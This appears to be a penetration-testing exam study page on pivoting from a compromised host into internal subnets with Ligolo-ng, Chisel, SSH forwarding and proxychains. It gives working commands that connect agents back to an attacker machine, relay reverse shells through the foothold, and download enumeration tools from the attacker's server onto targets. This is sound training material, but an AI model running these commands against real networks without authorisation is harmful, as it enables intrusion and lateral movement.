

# Pivoting & Tunnelling

<div class="dfir-meta" markdown>
**Where it matters:** AD set — reaching internal subnets · **Priority:** High · **Last updated:** 2026-10-23
</div>

!!! abstract "In one sentence"
    The failure that shows up most in 2025–2026 write-ups: owning the first machine but never getting traffic into the internal network behind it. Pivoting is the fix — make the compromised host carry your tools' traffic onward.

!!! note "How this page is organised"
    A study map with the core commands you will reuse. Practise each one in the labs until the setup is muscle memory — on the exam clock you don't want to be reading docs. Remember the exam rule: **no Metasploit pivoting** (that touches more than one target), so this is done with standalone tools.

## When you need to pivot { #when-to-pivot }

Signs that there is a network you can't reach yet:

- `ipconfig /all` or `ip addr` on the foothold shows a **second interface** on a different subnet.
- A host has services bound to `127.0.0.1` only.
- BloodHound / enumeration names machines you cannot ping or scan from Kali.

The shape of the problem: Kali can talk to the foothold, the foothold can talk to the internal hosts, but Kali cannot talk to the internal hosts directly. You route through the foothold.



## Ligolo-ng — the default choice { #ligolo-ng }

Ligolo-ng is the community favourite because it gives you a real network interface: once set up, internal hosts behave like any other route, and **all** your tools work through it with no per-tool proxy config. (Commands below follow Ligolo-ng v0.6+.)

**1. One-time setup on Kali — create the tun interface:**

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

**2. Start the proxy (listener) on Kali:**

```bash
./proxy -selfcert          # lab/exam use; listens on 0.0.0.0:11601 by default
```

**3. Run the agent on the compromised host**, pointing back at Kali:

=== "Linux target"

    ```bash
    ./agent -connect <KALI_IP>:11601 -ignore-cert
    ```

=== "Windows target"

    ```powershell
    .\agent.exe -connect <KALI_IP>:11601 -ignore-cert
    ```

`-ignore-cert` is for lab/exam use with `-selfcert` only.

**4. In the proxy console, select the session and add the route to the internal subnet:**

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

After this, Kali reaches `10.10.120.0/24` directly — `nmap`, `evil-winrm`, `impacket-*`, a browser, anything. Scan through it as normal (TCP connect scans only through a tunnel: `nmap -sT -Pn`).

!!! tip "Getting a reverse shell back through the pivot"
    A reverse shell from an internal host can't reach Kali directly. Add a **listener** on the agent that forwards a port back to your handler:
    ```text
    ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
    ```
    Point the payload at the foothold's IP on `:4444`; it is relayed to your `nc`/handler on Kali's `:4444`.

!!! tip "Reaching the agent's own localhost"
    To hit a service bound to `127.0.0.1` on the compromised host itself, Ligolo-ng maps the unused range `240.0.0.0/4` to the agent's loopback:
    ```bash
    sudo ip route add 240.0.0.1/32 dev ligolo
    ```
    Then target `240.0.0.1` — e.g. an internal admin panel on `127.0.0.1:8000`.

## Double pivot { #double-pivot }

When the second host opens a *third* subnet, chain another agent through the first. On the first agent, add a listener that relays back to your proxy:

```text
ligolo-ng » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

Run a second agent on host #2 connecting to **host #1's** IP on that port, then give it its own tun interface and route the third subnet to it. The idea: each hop relays the control channel back one step until it reaches Kali.

## Chisel — the fallback { #chisel }

If you can't run Ligolo-ng (binary flagged, odd architecture), Chisel gives a reverse SOCKS proxy. You then run tools through `proxychains`.

```bash
# Kali (server)
./chisel server -p 8080 --reverse
# target (client) — reverse SOCKS back to Kali
./chisel client <KALI_IP>:8080 R:socks
```

Add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`, then prefix tools with `proxychains -q`.

## SSH forwarding { #ssh-forwarding }

When you have SSH access to a Linux pivot, no uploads are needed:

| Goal | Command | Effect |
|---|---|---|
| Reach one internal port | `ssh -L 8080:10.10.120.142:80 user@pivot` | Kali `localhost:8080` → internal `:80` |
| Expose a Kali port to the pivot | `ssh -R 4444:127.0.0.1:4444 user@pivot` | Pivot `:4444` → Kali `:4444` (reverse shells) |
| Whole-subnet SOCKS | `ssh -D 1080 user@pivot` | SOCKS proxy on Kali `:1080` → use with proxychains |

## proxychains notes { #proxychains }

- Use it for tools that have no built-in pivot (e.g. `proxychains -q impacket-psexec ...`).
- `proxychains nmap` must be TCP connect (`-sT`) and no ping (`-Pn`); it is slow — scan a short port list.
- Ligolo-ng usually removes the need for proxychains entirely, since it gives a real interface.

## File transfer onto internal hosts { #file-transfer }

Once routed, serve files from Kali and pull them in:

```bash
python3 -m http.server 80           # on Kali
```

```powershell
iwr http://<KALI_IP>/winPEAS.exe -OutFile C:\Windows\Temp\wp.exe   # on target
```

Through Ligolo-ng the target reaches Kali over the tunnel the same way; with a listener you can also relay an SMB server (`impacket-smbserver share . -smb2support`).

## Related pages

- [Nmap](../../pentesting/recon/nmap/index.md) — scanning through a tunnel (`-sT -Pn`)
- [Network](../../network/index.md) — what tunnelled / relayed traffic looks like to a defender
- [Active Directory](active-directory.md) — the set where pivoting is almost always required

## References

- [Ligolo-ng documentation](https://docs.ligolo.ng/)
- [Ligolo-ng — reaching the agent's localhost (240.0.0.0/4)](https://docs.ligolo.ng/Localhost/)
